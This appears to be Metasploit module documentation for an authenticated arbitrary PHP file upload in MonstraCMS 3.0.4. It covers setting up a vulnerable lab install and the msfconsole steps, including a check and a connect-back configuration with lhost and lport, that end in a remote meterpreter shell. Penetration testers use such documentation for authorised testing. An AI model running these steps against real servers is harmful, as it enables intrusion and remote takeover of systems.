 ## Description
MonstraCMS 3.0.4 allows users to upload Arbitrary files which leads to a remote command execution on the remote server, an attacker may choose to upload a file containing PHP code and run this code by accessing the resulting PHP file.
This module was tested against MonstraCMS 3.0.4.
Additional information and vulnerabilities can be viewed on Exploit-DB [43348](https://www.exploit-db.com/exploits/43348/).

## Vulnerable Application 
Available at [Exploit-DB](https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip)

### Vulnerable Application Installation Setup.
 1. Download Application : `https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 2. Extract : `23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 3. Move In WebDirectory : `C:\xampp\htdocs\`
 4. Now Visit : http://localhost/
 8. Setup DB creds and other thins which is essential for Monstra CMS.

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/monstra_fileupload_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi monstra`
 7. Do: `set username root`
 8. Do: `set password password`
 9. Do: `check`
```
[*] 10.22.1.10:80 The target appears to be vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Monstra CMS on Windows Target
```                                                                                                                                    
meterpreter >
```
